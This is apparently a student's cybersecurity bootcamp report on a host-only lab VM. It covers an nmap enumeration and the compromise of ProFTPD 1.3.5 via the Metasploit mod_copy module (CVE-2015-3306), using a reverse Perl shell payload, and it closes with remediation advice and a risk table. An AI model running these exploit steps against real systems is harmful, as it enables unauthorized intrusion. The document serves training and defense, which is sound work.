





# **Cyber-Security-Bootcamp-Mulearn-OWASP-Kerala**

**Task 5 – Vulnerability Assessment Report**

---

## **Challenge Information**

* **VM Setup**: Vulnerable VM imported in VirtualBox (Host-only Network)
* **Attacker Machine**: Kali Linux 2025.2

  * **IP**: `192.168.28.128`
* **Target Machine**: Challenge VM

  * **IP**: `192.168.28.129`
* **Tools Used**:

  * Nmap (7.95)
  * Metasploit Framework (msf6)
  * smbclient
  * curl / gobuster
  * Manual enumeration

---

## **1. Enumeration**

### **1.1 Nmap Service Scan**

Command:

```bash
nmap -sC -sV -O 192.168.28.129 -oN nmap_initial.txt
```

**Findings:**

```
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu
631/tcp  open   ipp         CUPS 1.7
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
```



---

### **1.2 Service Notes**

* **FTP (ProFTPD 1.3.5)** – Vulnerable to `mod_copy` Remote Command Execution (CVE-2015-3306).
* **HTTP (Apache 2.4.7)** – Directory listing enabled, accessible folders: `chat/`, `drupal/`, `payroll_app.php`, `phpmyadmin/`.
* **Samba (4.3.11)** – Message signing disabled → MITM risk.
* **CUPS (1.7)** – PUT method allowed, potential file upload vector.
* **MySQL** – Open to external connections, requires credentials.
* **Jetty (8.1.7)** – Outdated Java web server, possible RCE exploits.

**Screenshot:** Browsing `http://192.168.28.129/` reveals visible directories.


---

## **2. Exploitation**

### **2.1 Exploit Research**

Searched for ProFTPD exploits:

```bash
searchsploit ProFTPD 1.3.5
```

Found: **ProFTPD 1.3.5 - 'mod\_copy' Remote Command Execution (Metasploit)**



---

### **2.2 Gaining Access (Metasploit)**

Steps:

```bash
msfconsole
search ProFTPD 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOST 192.168.28.129
set SITEPATH /var/www/html
set payload cmd/unix/reverse_perl
exploit
```

**Result:** Reverse shell opened as `www-data`.



---

### **2.3 Post-Exploitation Enumeration**

Commands executed inside the shell:

```bash
whoami
uname -a
ls /var/www/html
```

**Findings:**

* User: `www-data`
* Directories: `chat/`, `drupal/`, `payroll_app.php`, `phpmyadmin/`, uploaded `shell`



No privilege escalation attempted in this phase, but multiple vectors exist (old kernel, Samba misconfig).

---

## **3. Vulnerability Explanation – ProFTPD mod\_copy**

The **mod\_copy** module allows use of `SITE CPFR` (copy from) and `SITE CPTO` (copy to) commands for file operations. In ProFTPD 1.3.5, access control was improperly enforced:

* Attackers can copy arbitrary files without authentication.
* Malicious payloads can be uploaded into web directories.
* This leads directly to **Remote Command Execution (RCE)**.

**Exploit Path in This Case:**

1. Malicious payload copied to `/var/www/html`.
2. Triggered via HTTP request.
3. Attacker obtained a remote shell.

---

## **4. Additional Findings**

* **Apache Directory Listing**: Exposes sensitive files.
* **Samba**: Message signing disabled → vulnerable to network-level attacks.
* **CUPS (631)**: Risky HTTP methods (`PUT`) allowed.
* **Jetty 8.1.7**: Outdated, several RCE CVEs.

---

## **5. Recommendations**

* **ProFTPD**: Upgrade to >1.3.5a or disable `mod_copy`.
* **Apache**: Disable directory listing in config.
* **Samba**: Enable signing, restrict to trusted hosts.
* **CUPS**: Limit to localhost; restrict HTTP methods.
* **MySQL**: Restrict remote access; enforce strong credentials.
* **Jetty**: Patch or replace with a supported version.
* **General**: Apply regular patching, hardening, and segmentation.

---

## **6. Risk Assessment Table (CVSS with Color Indicators)**

| Service / Component | Vulnerability                      | CVE           | Risk        | CVSS (v3.1) Score |
| ------------------- | ---------------------------------- | ------------- | ----------- | ----------------- |
| ProFTPD 1.3.5       | mod\_copy Remote Command Execution | CVE-2015-3306 | 🟥 Critical | 9.8 (CRITICAL)    |
| Apache 2.4.7        | Directory Listing Enabled          | N/A           | 🟨 Medium   | 5.3 (MEDIUM)      |
| Samba 4.3.11        | Message Signing Disabled           | N/A           | 🟧 High     | 7.4 (HIGH)        |
| CUPS 1.7            | PUT Method Allowed                 | N/A           | 🟨 Medium   | 6.0 (MEDIUM)      |
| MySQL               | Remote Access Exposed              | N/A           | 🟧 High     | 7.5 (HIGH)        |
| Jetty 8.1.7         | Outdated Version with Known RCEs   | Multiple CVEs | 🟧 High     | 8.1 (HIGH)        |

---

## **7. Conclusion**

The target VM was compromised via a **known RCE in ProFTPD 1.3.5 (mod\_copy)**, leading to shell access. Additional misconfigurations further highlighted weak security practices. With layered hardening and regular patching, the system can be secured against similar threats.

---

## **8. References**

* CVE-2015-3306: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3306](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3306)
* Nmap Documentation: [https://nmap.org/book/](https://nmap.org/book/)
* Metasploit Unleashed: [https://www.offsec.com/metasploit-unleashed/](https://www.offsec.com/metasploit-unleashed/)
* Apache Hardening Guide: [https://httpd.apache.org/docs/2.4/misc/security\_tips.html](https://httpd.apache.org/docs/2.4/misc/security_tips.html)
* Samba Security Best Practices: [https://wiki.samba.org/index.php/Samba\_Security](https://wiki.samba.org/index.php/Samba_Security)
* Jetty Vulnerabilities Archive: [https://www.eclipse.org/jetty/security-reports.html](https://www.eclipse.org/jetty/security-reports.html)

---

**Prepared By:** *Yedhukrishna*
**Date:** Aug 16, 2025
**For:** Cybersecurity Bootcamp – Task 5
